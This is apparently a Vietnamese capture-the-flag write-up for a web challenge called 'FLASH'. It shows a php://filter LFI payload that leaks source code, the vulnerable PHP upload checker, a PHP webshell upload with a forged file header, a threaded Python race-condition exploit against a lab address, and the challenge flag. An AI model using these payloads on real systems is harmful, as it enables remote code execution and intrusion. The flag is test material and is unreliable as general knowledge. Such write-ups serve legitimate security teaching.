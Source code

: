 # FLASH

## Hint 

- Admin sign file bằng cách nào ?
- Không phải sqli .
- Không phải blackbox, LFI.
- Custom sign . 

## Solution

Bài này hơi lừa chút tại phần form đăng nhập , tuy nhiên mình sẽ đi thẳng vào vấn đề là khai thác lỗi LFI để lấy source code .

Ta sẽ có hai endpoint có thể truy cập được đó là ?page=checkFile và ?page=fakeFlag ta có thể LFi một trong hai cái này đều được.Do hint là không phải blackbox nên chắc chắn LFI là để lấy được source code .
Tại đây mình sẽ khai thác LFI để lấy source code của *checkFile* vì đây là hướng khai thác tiếp theo trong bài này. 

Payload: php://filter/convert.base64-encode/resource=checkFile

```
<!DOCTYPE html>
<html>
<body>

<form action="" method="post" enctype="multipart/form-data">
  Select file to check:
  <input type="file" name="files" id="fileToUpload">
  <input type="submit" value="Check" name="submit">
</form>

</body>
</html>

<?php
	function checkSign($handler){
		$header = fread($handler, 12);
		$type = substr($header, 0, 4);
		$size = unpack("n",substr($header, 4, 4));
		$signer = substr($header, 8, 4); 
		
		if($type!=="FILE" || $signer!=="CLWN"){
			return False;
		}else{
			return $size;
		}

	}

	function checkFile($file,$start,$size){
		// we still trying to collect more ... to deploy this 
	}

	if(isset($_FILES) && !empty($_FILES) ){
		//upload
		$fileName = hash("sha256",$_FILES["files"]["name"]);
		$uploadpath = "tmp/";
		$ext = pathinfo($_FILES["files"]["name"], PATHINFO_EXTENSION);
		$upload_dir = $uploadpath.$fileName.".".$ext;  
		

		//check
		$f = fopen($_FILES["files"]["tmp_name"],"rb");
		$fileSize = checkSign($f);
		fclose($f);
		if($fileSize[1] === 0){
			$error = "Empty file nothing to do";
		}elseif($fileSize[1] > 1024){
			$error = "File too large";
		}elseif(!$fileSize){
			$error = "Contact admin to sign your file before check btw he got something call FLAG ";
		}else{
			move_uploaded_file($_FILES["files"]["tmp_name"], $upload_dir);
			checkFile($upload_dir,12,$fileSize);
			unlink($upload_dir);
		}
		echo $error;
	}
	//
	
?>
```

Ok, nhìn vào source code có thể thấy một số vấn đề sau :
-  Đầu tiên, ta sẽ có hàm *checkSign* hàm này sẽ lấy ra 12 byte đầu trong file khi ta tải lên và nó sẽ chia ra là 3 phần với 4 byte đầu sẽ được so khớp với 'FILE', 4 byte tiếp theo dùng để tính filesize và byte cuối so khớp với 'CLWN' và hàm sẽ trae về filesize.
-  Tiếp theo là một hàm checkFile không có chức năng gì.
- Cuối cùng code sẽ check filesize của chúng ta nếu nó lớn hơn 1024 thì sẽ không up lên được . Và nếu các điều kiện được thỏa mãn ta sẽ có thể upload thành công tuy nhiên có một vấn đề là sau khi ta up file nên nó sẽ bị xóa ngay bằng unlink() => không thể tìm được file upload.

Hướng đi vẫn sẽ là upload lên payload để RCE do việc nó không có bất kì filter file nào nên ta có thể upload lên một payload bằng php có dạng :

```
FILExxxxCLWN

<?php
system('ls');
?> 

``` 

(Cái phần filesize ta có thể dùng hexeditor để sửa sao cho kích cỡ nhỏ hơn 1024 là được .)

Quay lại với vấn đề làm sao để có thể truy cập được file upload nên trước khi bị xóa , ta có thể để ý là trước khi unlink() thì code có chèn hàm checkFile() mặc dù nó không có tác dụng gì nhưng thiết nghĩ tác giả chắc không rảnh đến vậy. Mục đích ở đây chính là tạo thêm một độ trễ giữa việc upload lên và xóa file. Vậy ý tưởng ở đây sẽ là vừa upload file lên vừa truy cập vào file để rce (RACE_CONDITION).

```
move_uploaded_file($_FILES["files"]["tmp_name"], $upload_dir);
checkFile($upload_dir,12,$fileSize);
unlink($upload_dir);
```
File sẽ được di chuyển vào trong thư mục /tmp và tên file được encode bằng sha256.

Code exploit:
 
```
import threading 
import requests

def send():
    url = "http://172.21.0.2/?page=checkFile"
    while 1:
        with open("xx.php",'rb') as f:
            files = {"files": f}
            r = requests.post(url, files=files)
        t = requests.get("http://172.21.0.2/tmp/d9266e9e77e1b2bc988e5b6bd27b66949f40f1a8c612e3dbdb2383a3bc5043aa.php")
        if "FILE" in t.text:
            print(t.text) 
            break

if __name__ == '__main__':
    try:
        for _ in range(32):
            p1 = threading.Thread(target=send)
            p1.start()
        
    except Exception as e:
        print(e)

``` 

##Flag

KCSC{Không làm mà đòi có ăn à ?}


